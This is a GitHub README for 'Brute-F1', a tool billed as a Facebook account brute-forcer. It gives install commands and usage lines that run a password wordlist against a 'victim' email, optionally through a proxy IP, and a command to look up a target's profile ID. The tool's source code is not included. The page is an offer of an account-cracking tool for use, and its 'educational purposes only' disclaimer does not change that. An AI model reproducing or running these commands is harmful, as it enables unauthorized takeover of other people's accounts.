 <h1><p align="center">Brute-F1</p></h1>

<p align="center">Most Powerful Facebook Bruteforce Tool<br/></p>

## The Tool is for :
- Windows
- Kali Linux
- Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

### Installation :

```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/DetaSploit/Brute-F1
```
```bash
cd Brute-F1
```
```bash
bash setup
```
```bash
python brute-f1.py
```

## Usage

  - **U can Use Victim email Or Facebook Profile Id** :
  
  - **Brute Force On Facebook Account Without proxy** :
  
  * **Command** : python brute-f1.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy** :
   
    * **Command** : python brute-f1.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID** :
  
   
    * **Command** : python brute-f1.py -g https://www.facebook.com/username

## Note :
<li>Tool is Made of Educational Purposes only</li>
<li>Use It At Your Own Risk</li>


## Visitors :

![Visitor Count](https://profile-counter.glitch.me/Toxic-Noob/count.svg)
